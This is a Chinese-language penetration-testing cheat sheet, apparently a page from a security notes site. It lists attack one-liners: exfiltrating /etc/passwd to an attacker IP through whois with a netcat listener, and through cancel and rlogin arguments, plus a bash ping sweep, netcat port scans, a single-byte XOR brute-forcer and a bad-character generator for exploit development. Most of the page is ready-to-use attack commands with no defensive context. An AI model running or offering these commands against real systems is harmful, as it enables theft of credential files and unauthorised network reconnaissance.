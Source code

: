 {% endtab %} {% endtabs %}

**域名查询服务数据漏出**

```text
# attacker
nc -l -v -p 43 | sed "s/ //g" | base64 -d
# victim
whois -h $attackerIP -p 43 `cat /etc/passwd | base64`
```

#### 数据泄露

```text
cancel -u "$(cat /etc/passwd)" -h ip:port
```

**远程登录命令数据漏出**

```text
rlogin -l "$(cat /etc/passwd)" -p port host
```

**Bash平扫**

```text
#!/bin/bash
for lastOctet in {1..254}; do 
    ping -c 1 10.0.0.$lastOctet | grep "bytes from" | cut -d " " -f 4 | cut -d ":" -f 1 &
done
```

#### 在Python中使用1字节键强制XOR'ed字符串

```text
encrypted = "encrypted-string-here"
for i in range(0,255):
    print("".join([chr(ord(e) ^ i) for e in encrypted]))
```

**生成坏字符串**

```text
# Python
'\\'.join([ "x{:02x}".format(i) for i in range(1,256) ])
```

```text
# Bash
for i in {1..255}; do printf "\\\x%02x" $i; done; echo -e "\r"
```

#### 将Python转换为Windows可执行文件\(.py -&gt;. exe \)

```text
python pyinstaller.py --onefile convert-to-exe.py
```

**使用NetCat进行端口扫描**

```text
nc -nvv -w 1 -z host 1000-2000
nc -nv -u -z -w 1 host 160-162
```
